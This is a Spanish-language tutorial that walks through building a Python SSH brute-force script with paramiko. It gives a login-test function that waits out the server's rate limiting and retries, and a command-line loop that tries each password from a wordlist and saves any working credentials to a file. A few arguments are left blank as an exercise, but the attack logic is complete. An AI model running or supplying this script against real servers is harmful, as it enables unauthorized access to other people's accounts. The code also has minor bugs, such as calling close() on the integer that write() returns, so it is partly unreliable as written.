

Fuerza bruta en SSH
Introducción
Un ataque de fuerza bruta es aquel que se basa en repetidos intentos de login utilizando múltiples combinanciones para comprometer un sistema que requeria autenticación. Hay muchísimas y muy buenas herramientas open source para realizar fuerza bruta al servicio SSH en Linux, como pueden ser Hydra, Metasploit, Patator o Medusa.
Aún así, como nos encanta aprender, vamos a crear nuestro propio script para realizar un ataque de fuerza bruta a un servidor SSH en Python.
En primer lugar, el módulo más importante que vamos a utilizar es paramiko, que nos proporciona una interfaz sencilla de cliente SSH.
Para instalarlo, bien de forma global en nuestra máquina, junto :
Bien únicamente en nuestro entorno virtual:
En este caso instalamos también el módulo colorama que únicamente nos permitirá imprimir en colores los textos por pantalla.
Importando módulos necesarios
Para nuestros propósitos vamos a necesitar los siguientes módulos:
- El módulo paramiko, entre otras otras cosas, nos permite realizar conexiones ssh a un servidor, mostrando en tiempo real el resultado de los comandos que se ejecuten en el mismo.
- El módulo socket nos permite crear conexiones de red de bajo nivel
- time, como su nombre indica, proporciona varias funciones relacionadas con el tiempo
Definimos algunos de los colores que vamos a utilizar:
- Iniciamos
colorama
Ahora construiremos una función que, dado nombre de host, un usuario y una contraseña, nos diga si la combinación es correcta:
def is_ssh_open(_______, _______, _______):
# initialize SSH client
client = paramiko.SSHClient()
# add to know hosts
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
try:
client.connect(hostname=_______, username=_______, password=_______, timeout=3)
except socket.timeout:
# this is when host is unreachable
print(f"{RED}[!] Host: {hostname} is unreachable, timed out.{RESET}")
return False
except paramiko.AuthenticationException:
print(f"[!] Invalid credentials for {username}:{password}")
return False
except paramiko.SSHException:
print(f"{BLUE}[*] Quota exceeded, retrying with delay...{RESET}")
# sleep for a minute
time.sleep(60)
return is_ssh_open(hostname, username, password)
else:
# connection was established successfully
print(f"{GREEN}[+] Found combo:\n\tHOSTNAME: {hostname}\n\tUSERNAME: {username}\n\tPASSWORD: {password}{RESET}")
return True
Mucha información en el bloque de arriba, que pasamos a desgranar. En primer lugar inicializamos nuestro cliente SSH usando paramiko.SSHClient() que no es más que una representación a alto nivel de una sesión con un servidor SSH.
En segundo lugar, estalecemos la política a usar cuando conectamos con servidores que no tengan una clave de host conocida. Usamos paramiko.AutoAddPolicy(), que es una política para añadir automáticamente el nombre de host y la nueva clave de host a nuestras claves locales. En román paladín, es una forma de emular esta típica acción:

Finalmente, intentamos conectarnos al servidor SSH y autenticarnos en él usando el métodos client.connect() con un timeout de 3 segundos. Este método puede lanzar varias excepciones:
socket.timeoutcuando el host es inalcanzable durante 3 segundosparamiko.AuthenticationExceptioncuando la combinación usuario/contraseña no es correctaparamiko.SSHExceptioncuando se han producido muchos intentos de login en un corto periodo de tiempo. Dicho de otro modo, el servidor detecta que es un intento de fuerza bruta, nos damos por enterados y esperaremos un minuto para volver a llamar a la función de nuevo con los mismos parámetros.
Si no se lanza ninguna de las excpeciones anteriores, entonces significa que se ha estalecido la conexión con éxito y las credenciales son correctas, por lo que devolveremos True en este caso.
Puesto que estamos hablando de un script en línea de comandos, debemos parsear los argumentos que se le pasan al mismo:
if __name__ == "__main__":
import argparse
parser = argparse.ArgumentParser(description="SSH Bruteforce Python script.")
parser.add_argument("host", help="Hostname or IP Address of SSH Server to bruteforce.")
parser.add_argument("-P", "--passlist", help="File that contain password list in each line.")
parser.add_argument("-u", "--user", help="Host username.")
# parseamos los argumentos que se nos han pasado
args = parser.parse_args()
host = args._______
passlist = args._______
user = args._______
# leer el fichero
passlist = open(_______).read().splitlines()
# fuerza bruta
for password in passlist:
if is_ssh_open(host, user, password):
global credenciales
# Si la combinación es válida, la guardamos en un archivo
credenciales = open("credentials.txt", "w").write(f"{user}@{host}:{password}")
break
credenciales.close()
Referencias
How to Change Text Color in Python